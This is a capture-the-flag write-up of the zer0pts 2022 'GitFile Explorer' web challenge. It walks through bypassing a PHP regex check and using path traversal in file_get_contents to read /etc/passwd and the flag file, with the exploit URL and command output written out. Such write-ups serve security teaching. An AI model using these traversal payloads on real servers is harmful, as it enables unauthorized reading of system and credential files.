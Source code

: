 # GitFile Explorer
|  Web   | Warmup |
|--------|--------|

*Read /flag.txt on the server.*

Challenge site: http://gitfile.ctf.zer0pts.com:8001/

![image](https://github.com/kanin9/ctf/blob/main/2022/zer0pts/images/a.png)


It looks like a simple website which allows us to *download files on GitHub/GitLab/BitBucket*

Upon clicking on the Download button, a request to  this url is made https://raw.githubusercontent.com/ptr-yudai/ptrlib/master/README.md and the response of the url is shown in the textarea.

![image](https://github.com/kanin9/ctf/blob/main/2022/zer0pts/images/b.png)

We now have  a basic understanding of the website , let see what we can do here to read the `/flag.txt` file.

This url  is in the address bar, when we click on the *Download* button:

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

Looks like we can substitute the service parameter



**Looking into the source code:**


```php
<?php
function h($s) { return htmlspecialchars($s); }
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}

$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
?>
```

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

The `craft_url` function creates the final url which will be used later on by combining all the parameter values.It also checks the `service` parameter using `strpos` function, to see if it's contains the word github/gitlab/bitbucket 

The returned url from `craft_url` is then stored in variable `$url`, which is again validated using `preg_match` with a regex check.

--------------


```php
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https://github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//xyz?github");
1
```

Ok we can easily bypass the check now.
Btw did you noticed the final url `https//xyz?github` , the colon is missing here after the protocol part.

If we try to pass this url to `file_get_contents` function you will get below error:

```php
php > echo file_get_contents('https//xyz?github');
PHP Warning:  file_get_contents(https//xyz?github): failed to open stream: No such file or directory in php shell code on line 1
```


*No such file or directory* ahh nice. So php treats https//xyz?github as a local directory



Let's check what happens if we put the missing colon , will we get the same error:

```php
php > echo file_get_contents('https://xyz?github');
PHP Warning:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
PHP Warning:  file_get_contents(https://xyz?github): failed to open stream: php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
```

Nope! We see that it is now treated as web URL


Hmmm... what if we try to access passwd file?
Spoiler alert, it works))) 


```php
php > echo file_get_contents('https//xyz?github/../../../../etc/passwd');
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
And after playing around a bit, I was able to read the flag:
Final url
http://gitfile.ctf.zer0pts.com:8001/?service=https//../../../%2523github&owner=ptr-yudai&repo=ptrlib&branch=master&file=../../../../../flag.txt


`zer0pts{foo/bar/../../../../../directory/traversal}`
